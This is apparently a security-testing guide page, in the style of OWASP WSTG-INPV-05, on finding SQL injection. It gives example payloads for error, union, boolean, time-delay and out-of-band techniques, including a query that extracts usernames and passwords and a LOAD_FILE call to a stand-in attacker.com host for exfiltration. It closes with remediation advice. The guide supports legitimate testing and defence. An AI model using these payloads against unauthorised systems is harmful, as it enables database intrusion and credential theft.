 # WSTG-INPV-05 - Testing for SQL Injection

## Summary
SQL Injection (SQLi) is a vulnerability that occurs when untrusted user input is included in an SQL query without proper validation or sanitization. Attackers can exploit this vulnerability to execute malicious SQL queries, potentially compromising the database and the application.

## Objective
To identify and exploit SQL Injection vulnerabilities in the application and evaluate their impact.

## Testing Procedure

### 1. Identify Input Points
- **Description**: Locate input fields or parameters that the application processes in SQL queries.
- **Steps**:
  1. Use the application to identify form fields, query parameters, or headers.
  2. Note which inputs affect the application's SQL queries (e.g., login forms, search fields).

### 2. Test for Error-Based SQL Injection
- **Description**: Inject SQL payloads to trigger error messages.
- **Steps**:
  1. Inject payloads like `'` or `"` into input fields.
  2. Observe server responses for SQL error messages or unexpected behavior.
  3. Examples of payloads:
     - `' OR '1'='1`
     - `" OR "1"="1`
     - `1'--`

### 3. Test for Union-Based SQL Injection
- **Description**: Use the `UNION` SQL operator to retrieve data from other tables.
- **Steps**:
  1. Inject payloads like `UNION SELECT NULL, NULL--` to identify the number of columns.
  2. Adjust the payload to match the number of columns and retrieve sensitive data.
  3. Example payload:
     - `' UNION SELECT username, password FROM users--`

### 4. Test for Boolean-Based SQL Injection
- **Description**: Inject payloads to evaluate true or false conditions.
- **Steps**:
  1. Inject payloads like `1=1` (true) or `1=2` (false).
  2. Observe differences in the application's response.
  3. Example payloads:
     - `1' AND 1=1--`
     - `1' AND 1=2--`

### 5. Test for Time-Based SQL Injection
- **Description**: Use time delays to identify blind SQL Injection.
- **Steps**:
  1. Inject payloads that include time delays, such as `SLEEP()` or `WAITFOR DELAY`.
  2. Observe response times to confirm the injection point.
  3. Example payloads:
     - `1' AND SLEEP(5)--`
     - `1'; WAITFOR DELAY '00:00:05'--`

### 6. Test for Out-of-Band (OOB) SQL Injection
- **Description**: Use OOB techniques to exfiltrate data when responses are not visible.
- **Steps**:
  1. Inject payloads that trigger DNS or HTTP requests to an attacker-controlled server.
  2. Monitor the attacker server for responses.
  3. Example payload:
     - `1' AND LOAD_FILE('\\attacker.com\file')--`

## Tools
- Burp Suite
- OWASP ZAP
- SQLMap
- Database Management Tools (e.g., MySQL, PostgreSQL)

## Remediation
1. Use parameterized queries (prepared statements) to prevent SQL Injection.
2. Validate and sanitize all user inputs on the server side.
3. Implement least privilege principles for database accounts.
4. Regularly review and test database query logic for vulnerabilities.
5. Educate developers on secure coding practices to mitigate SQL Injection.

## References
- [OWASP Testing Guide](https://owasp.org/www-project-web-security-testing-guide/)
- [OWASP SQL Injection Prevention Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/SQL_Injection_Prevention_Cheat_Sheet.html)
